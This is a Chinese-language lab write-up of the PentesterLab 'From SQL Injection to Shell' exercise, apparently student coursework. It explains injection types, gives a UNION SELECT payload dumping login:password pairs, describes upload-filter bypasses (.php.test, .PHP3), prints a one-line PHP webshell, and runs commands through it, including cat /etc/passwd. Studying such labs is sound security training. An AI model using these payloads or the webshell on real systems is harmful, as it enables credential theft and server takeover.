



# From SQL Injection to Shell #
## SQL Injection 产生原因 ##
- 太过于信任用户所输入的数据，未限制输入的字符数，未对用户输入的数据做潜在指令的检查。当用户输入的数据包含SQL代码时，该SQL代码在服务端脚本的执行过程中被带入到数据库引擎当作一段SQL代码执行，就会导致SQL注入。


## SQL Injection 攻击原理 ##
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  
## SQL Injection 攻击分类 ##
1. 按攻击手段分类  

	Piggy-backed Queries  多命令语句攻击  

	Tautologies   恒真命题攻击  

	Alternate Encodings   其他编码攻击  

	Illegal/Logically Incorrect Queries  非法查询攻击  

	Union Query   联合查询攻击  

	Stored Procedures  存储过程的注入攻击  


2. 按获取数据方式  
	**Inband：**  
	Inband技术使用攻击者和有漏洞的Web应用程序之间现有的渠道来提取数据。通常该通道是标准的Web服务器响应。  
	**inference（推理）：**  
	Inference技术中，攻击者通过应用程序表现的差异来推断数据的值。Inference技术能够逐位提取恶意SQL查询结果，却没有真正传输数据。  
	**out-of-band：**  
	Out-of-band(OOB)技术，与inband相反，使用其它传输信道获取数据，例如超文本传输协议和DNS解析协议。


## 基本思路 ##
- 收集web开发的基本信息
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

## 实验环境 ##
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。
- 服务器的网络配置


- 攻击方系统Windows 10


## 存在注入点 ##


## 获取列数 ##
### UNION SELECT ###
- 使用UNION SELECT语句并从1开始增加列数。
- 如果UNION语句连接的两个查询返回的列数不同，数据库会报错。
- 通过这个方法得到列数是4




----------

### ORDER BY ###
- 返回的结果根据ORDER BY语句选择的列进行排序
- ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。
- 通过这个方法可以找到最后一列是4



## Retrieving information ##
- 使用current_user()语句，用来取得 MySQL 当前使用者名称
- 使用version()语句，得到数据库版本号


- 从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里


### 获取用户名和密码 ###

> 1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;


- 登录管理员账号


## 上传webshell和执行代码获取管理员权限 ##
- webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本
- .php.test这将绕过简单的.php过滤器，但Apache仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。
- .PHP3这将绕过简单的.php过滤器

```php
<?php
  system($_GET['cmd']);
?>
```

- 上传webshell


- 查看页面源代码获取图片的链接


- cmd=uname
- 显示当前操作系统名称


- uname -a
- 显示当前计算机和操作系统的名称、版本及其他细节


- cat /etc/passwd 
- 用户的关键信息被存放在系统的/etc/passwd文件中


- ls 来得到当前目录的列表


## 参考资料 ##

- [https://github.com/CUCCS/ns/blob/2016-2/2016-2/zc_snRNA/FlippedClassroom_FromSqlInjectionToShell/From%20SQL%20Injection%20to%20Shell.md](https://github.com/CUCCS/ns/blob/2016-2/2016-2/zc_snRNA/FlippedClassroom_FromSqlInjectionToShell/From%20SQL%20Injection%20to%20Shell.md "https://github.com/CUCCS/ns/blob/2016-2/2016-2/zc_snRNA/FlippedClassroom_FromSqlInjectionToShell/From%20SQL%20Injection%20to%20Shell.md")
- [https://pentesterlab.com/exercises/from_sqli_to_shell/course](https://pentesterlab.com/exercises/from_sqli_to_shell/course "https://pentesterlab.com/exercises/from_sqli_to_shell/course")
